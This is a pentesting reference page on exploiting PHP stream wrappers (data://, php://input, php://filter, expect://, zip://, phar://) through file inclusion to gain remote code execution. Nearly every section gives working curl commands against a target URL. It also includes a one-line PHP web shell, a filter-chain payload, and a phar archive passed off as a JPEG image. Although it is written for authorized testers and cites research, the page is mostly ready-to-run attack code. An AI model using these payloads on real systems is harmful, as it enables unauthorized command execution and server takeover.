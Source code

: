 ```yaml
---
authors: LucasParsy, ShutdownRepo
---
```


# PHP wrappers and streams

::: details data://
The attribute `allow_url_include` must be set. This configuration can be checked in the `php.ini` file.


```bash
# Shell in base64 encoding
echo "<?php system($_GET['cmd']); ?>" | base64

# Accessing the log file via LFI
curl --user-agent "PENTEST" "$URL/?parameter=data://text/plain;base64,$SHELL_BASE64&cmd=id"
```

:::


::: details php://input
The attribute `allow_url_include` should be set. This configuration can be checked in the `php.ini` file.


```bash
# Testers should make sure to change the $URL
curl --user-agent "PENTEST" -s -X POST --data "<?php system('id'); ?>" "$URL?parameter=php://input"
```

:::


::: details php://filter
The `filter` wrapper doesn't require the `allow_url_include` to be set. This works on default PHP configuration `allow_url_include=off`.


```bash
# Testers should make sure to change the $URL, $FILTERS with the chaining that generates their payload and $FILE with the path to the file they can read.
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE"
```


The [php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py) script (Python3) implements the generation of the PHP filters chaining.


```
# Example: generate <?=`$_GET[cmd]`;;?> (base64 value: PD89YCRfR0VUW2NtZF1gOzs/Pg) using /etc/passwd file to run whoami command on the target.

# Generate the payload 
python3 php_filter_chain_generator.py --chain '<?=`$_GET[cmd]`;;?>'

# Fill variables
FILTERS="convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|[...]|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode"
FILE="/etc/passwd"

# Get RCE on the target
curl --user-agent "PENTEST" "$URL?parameter=php://filter/$FILTERS/resource=$FILE&cmd=whoami"
```


Finding a valid path to a file on the target is not required. PHP wrappers like `php://temp` can be used instead.

The research article "[PHP filters chain: What is it and how to use it](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it.html)" from Synacktiv, and [the original writeup](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d), go into the details of that technique.
:::


::: details expect://
The `expect` wrapper doesn't required the `allow_url_include` configuration, the `expect` extension is required instead.

```bash
curl --user-agent "PENTEST" -s "$URL/?parameter=expect://id"
```
:::


::: details zip://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).


```bash
echo "<?php system($_GET['cmd']); ?>" > payload.php
zip payload.zip payload.php

# Accessing the log file via LFI (the # identifier is URL-encoded)
curl --user-agent "PENTEST" "$URL/?parameter=zip://payload.zip%23payload.php&cmd=id"
```

:::


::: details phar://
The prerequisite for this method is to be able to [upload a file](../../unrestricted-file-upload.md).

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

The tester need to compile this script into a `.phar` file that when called would write a shell called `shell.txt` .

```bash
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now the tester has a `phar` file named `shell.jpg` and he can trigger it through the `phar://` wrapper.


```bash
curl --user-agent "PENTEST" "$URL/?parameter=phar://./shell.jpg%2Fshell.txt&cmd=id"
```

:::

